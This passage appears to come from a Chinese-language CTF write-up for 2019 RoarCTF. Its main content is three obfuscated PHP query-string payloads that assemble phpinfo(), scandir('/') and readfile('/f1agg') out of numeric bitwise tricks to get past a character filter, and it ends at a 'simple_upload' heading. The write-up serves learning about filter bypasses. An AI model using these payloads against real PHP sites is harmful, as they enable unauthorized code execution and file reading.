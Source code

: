 ![](/home/cookie/Pictures/blogs/2019roarCTF/3.png)



由此构造payload:

```markdown
//phpinfo()
?num=(((((1).(0)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(8)){1})%26(((9999999999999999999999).(1)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(0)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(9)){1})%26(((9999999999999999999999).(1)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((9999999999999999999999).(1)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(7)){1})%26(((9999999999999999999999).(1)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((9999999999999999999999).(1)){3})|(((9999999999999999999999).(1)){4})))()

//scandir('/')
?num=((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4})).((((1).(7)){1})%26(((9999999999999999999999).(1)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(1)){1})).((((1).(1)){1})%26(((9999999999999999999999).(1)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4}))%26(((1).(7)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4}))%26(((1).(7)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1}))))

//readfile('/f1agg')
?num=(((((1).(2)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4}))%26(((1).(5)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(1)){1})%26(((9999999999999999999999).(1)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(4)){1})%26(((9999999999999999999999).(1)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(7)){1})%26(((9999999999999999999999).(1)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(9)){1})%26(((9999999999999999999999).(1)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((((9999999999999999999999).(1)){4})|(((9999999999999999999999).(1)){1}))%26((((1).(4)){1})|(((1).(8)){1}))|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4}))%26(((1).(5)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))))(((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4})).((((1).(7)){1})%26(((9999999999999999999999).(1)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).((((1).(1)){1})).((((1).(1)){1})%26(((9999999999999999999999).(1)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4}))%26(((1).(7)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((((9999999999999999999999).(1)){1})|(((9999999999999999999999).(1)){4}))%26(((1).(7)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))))
```



## simple_upload
